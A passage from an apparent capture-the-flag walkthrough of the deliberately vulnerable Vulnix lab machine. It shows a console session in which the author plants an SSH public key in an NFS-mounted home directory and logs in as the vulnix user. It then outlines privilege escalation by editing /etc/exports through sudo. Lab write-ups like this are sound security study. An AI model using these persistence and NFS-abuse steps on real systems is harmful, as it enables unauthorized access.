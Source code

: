 ```console
root@kali:~# cd .ssh
root@kali:~/.ssh# ls
id_rsa  id_rsa.pub  known_hosts
root@kali:~/.ssh# su vulnix
$ cd /tmp/mnt
$ mkdir .ssh
$ cd .ssh
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDV+bAWn9J+xwfVKkNd/TpwysAEVAU321XBxwc0qt8OXRJZC71/UOr/2m/QCeneJH/o0d4IiaZSJQWOTwVlpRvBeTLTRLu8T5OgOGjTF2TEL6Z8ILif2RS5QuPjFRRoW4TOvApNbcqpzkVtXcCQLlxXkO1KNA01LapaTfhh48l+bpzjlujFQTaw3m5FXB1aQASkweZLwF2T0+2anvX0gtB2QKwePbwb4zEIpcVHrucCe3j9Z2KYE7GcyJiOEUEyXi39GsypR3fRCcJTx2/TXkhByjkYgFJjnoBd/koMfpnWjtVHj+d6y97f1Srkrv+RB5mNiYcMN+W4bAU2m11163kr root@kali > authorized_keys
$ exit
root@kali:~/.ssh# ssh vulnix@192.168.1.72
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

* Documentation:  https://help.ubuntu.com/

System information as of Mon Oct 31 04:09:44 GMT 2016

System load:  0.0              Processes:           89
Usage of /:   93.3% of 773MB   Users logged in:     0
Memory usage: 13%              IP address for eth0: 192.168.1.72
Swap usage:   0%

=> / is using 93.3% of 773MB

Graph this data and manage this system at https://landscape.canonical.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

vulnix@vulnix:~$
```

### 2.3 Privilege Escalation P2 (ROOT!)

I was very lucky to notice this straight away that running `sudo -l` shows that I'm allowed to edit `/etc/exports`. This way I can add an entry for the entire directory and do whatever I want.

Yet one problem stood in the way, how do I restart the VM so the changes take place? Not sure what other people think about this  but unfortunately the author's walkthrough was to restart the VM. I'm very against this as in a pentest, I don't have access to the physical machine, if I can't reboot it with my current privilege, I won't be able to restart it.
